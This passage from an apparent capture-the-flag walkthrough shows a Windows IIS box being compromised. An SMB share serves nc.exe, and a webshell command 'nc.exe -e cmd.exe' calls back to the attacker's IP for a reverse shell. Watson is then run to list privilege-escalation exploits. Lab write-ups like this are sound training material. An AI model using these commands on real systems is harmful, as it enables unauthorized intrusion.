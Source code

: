 I’ll make a directory name `h4xploit` and copy nc.exe in the directory. I will run now smb server.

```bash
sudo python smbserver.py share h4xploit/
 Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
 [] Config file parsed 
 [] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
 [] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
 [] Config file parsed
 [] Config file parsed 
 [] Config file parsed
```

Now, I will launch `nc` listener on my local box to get the shell.

```bash
nc -lnvp 443
Listening on 0.0.0.0 443
```

Now, I will give command to the webshell.

```bash
\\10.10.14.61\share\nc.exe -e cmd.exe 10.10.14.61 443 
```

By this above command, we get the shell.

```bash
Connection received on 10.129.152.23 49159
 Microsoft Windows [Version 6.1.7600]
 Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 c:\windows\system32\inetsrv>whoami
 iis apppool\web
 c:\windows\system32\inetsrv> cd ../../..
 c:\ cd Users
 c:\Users>cd babis 
 cd babis
 Access is denied.
 c:\Users>
 ```

As you can see we have access denied to the users. So we have to get the system shell.

Now, we have to use exploit suggestor as WinPEAS, Watson or msfconsole’s local-exploit-suggestor. I will be using watson to see the suggested exploits.

### Privilege Escalation (Using Watson)

I already transferred the Watson.exe to the target system using smbserver. If you want to download Watson.exe, then visit [__Watson__](https://github.com/rasta-mouse/Watson){:target="_blank"}.

Now, let’s run the watson.exe and see the suggested exploits for privilege escalation.

```bash
c:\Windows\Microsoft.NET\Framework>\10.10.14.61\share\Watson.exe
\\10.10.14.61\share\Watson.exe
  
[] OS Build number: 7600 
[] CPU Address Width: 32 
[] Process IntPtr Size: 4 
[] Using Windows path: C:\WINDOWS\System32

[] Appears vulnerable to MS10-073
 [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel. 
[>] Exploit: https://www.exploit-db.com/exploits/36327/ 
[>] Notes: None. 

[] Appears vulnerable to MS10-092 
```